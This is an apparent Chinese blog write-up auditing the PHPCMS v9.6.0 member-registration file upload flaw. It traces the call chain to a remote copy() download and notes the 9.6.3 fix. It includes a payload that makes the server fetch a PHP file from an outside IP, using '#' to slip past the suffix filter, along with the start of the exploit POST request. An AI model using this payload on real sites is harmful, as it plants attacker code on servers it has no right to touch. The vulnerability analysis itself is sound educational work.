前言
传统的cms直接定位危险函数就能快速审计出利用链，然而现代的cms都需要一大特性是动态函数执行，而且漏洞点时常会藏的很深，比如该cms的文件上传。如果单纯搜索move_uploaded_file函数是无果的，该漏洞主要是利用动态函数执行+远程文件下载。等自己认真审计一套传统cms，得需要深入研究现代cms挖掘的一些技巧，最近CNVD爆了个phpcms v9.6.3文件上传漏洞，挖了好久都没get到漏洞点。还是需要努力，更需耐心。
程序流程分析
$initialize = 1则会初始化加载类

调用load_sys_class可以调用并初始化类

my_path拼接加载类文件路径

application类初始化应用，param类加载配置文件和过滤参数

路由解析
分别定义三个宏变量

获取模型

获取控制器

获取事件

路由解析后开始调用

文件路径调用
$filepath=/var/www/html/cms/phpcms960/install_package/phpcms/modules/member/index.php
类调用： $classname = $filename

漏洞分析断点下放位置
通过以上分析，下断点在application.class.php中类application init()方法
或者直接可以起到call_user_func位置

PHPcms v9.6.0 任意文件上传漏洞
漏洞触发点(/phpcms/modules/member/index.php第135行)$_POST['info']参数可控.
get方法由member_input类调用

第48行执行动态函数调用
1 | $func参数： |

$func参数
溯源fields[$field]['formtype'];，由类初始化时候对传入的$modelid值决定调用相应的文件内容。该值由$_POST[‘modelid’]传入可控.


可以调用的文件如下。$func值为相应调用方法.可以全局搜索formtype键对应的方法查看危险函数。

跟进memeber_input.class.php下第59行editor方法，继续跟进download方法

第172行调用$upload_func($file, $newfile) ，$upload_func=”copy”，该方法会实现远程文件下载。
正则会截取包括.$ext内容
1 | "/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i" |

fillurl方法调用strpos对锚点前字符截取，可以利用#绕过正则对后缀的限制。保存的文件后缀就会置为php
构造<img href=http://120.77.180.97/1.php#.jpg>即可
exp
每次请求需要更换username、password、email
1 | POST /cms/phpcms_v9.6.0_GBK/install_package/index.php?m=member&c=index&a=register&siteid=1 HTTP/1.1 |

修复
phpcms 9.6.3修复手段。进行一次后缀名验证

参考链接
https://mochazz.github.io/2019/07/18/phpcms%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%90%88%E9%9B%86/